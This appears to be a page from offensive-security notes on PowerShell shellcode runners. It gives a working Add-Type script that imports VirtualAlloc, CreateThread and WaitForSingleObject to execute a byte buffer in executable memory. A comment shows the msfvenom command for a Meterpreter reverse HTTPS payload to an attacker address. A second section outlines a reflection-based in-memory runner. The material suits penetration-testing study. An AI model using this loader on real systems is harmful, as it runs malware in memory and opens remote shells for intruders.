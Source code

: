 
## PowerShell



### Using Add-Type

C data types to C# data types "translation" can be done with P/Invoke APIs (Platform Invocation Services) at [www.pinvoke.net](http://www.pinvoke.net/) (e.g., [VirtualAlloc](http://www.pinvoke.net/default.aspx/kernel32.VirtualAlloc)).

Runner example:

{% code title="ShellcodeRunnerv1.ps1" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Win32

[Byte[]] $buf = 0xff,0xff,...,0xff
$size = $buf.Length
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0)
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
{% endcode %}



### Reflection Runner using DelegateType (in Memory)

* `lookupFunction` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
* `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
* `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
* `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
* `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
* `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.
